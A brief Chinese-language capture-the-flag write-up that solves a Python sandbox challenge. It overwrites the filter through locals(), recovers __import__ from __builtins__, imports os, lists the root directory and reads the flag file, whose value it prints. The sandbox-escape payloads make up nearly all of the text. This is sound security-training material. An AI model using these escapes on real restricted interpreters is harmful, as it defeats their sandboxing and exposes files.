


首先先修改过滤函数。
~~~
locals().__setitem__("my_filter",str)
~~~
由于`__import__`被覆盖了，所以要去`builtins`里面找`__import__`
~~~
print(__builtins__.__import__("os").listdir('/'))
~~~

可以恢复`__import__`
~~~
locals().__setitem__('__import__',__builtins__.__import__)
~~~

借用其他的变量来缩短payload
~~~
locals().__setitem__('dir',__import__("os"))
~~~
利用`os.open`来读文件
~~~
print(dir.read(dir.open("/FlAg_1s_H3re",0),100))
~~~

~~~
BUAACTF{IM_54v3d_7H4nk_y0u_mY_frI3Nd}
~~~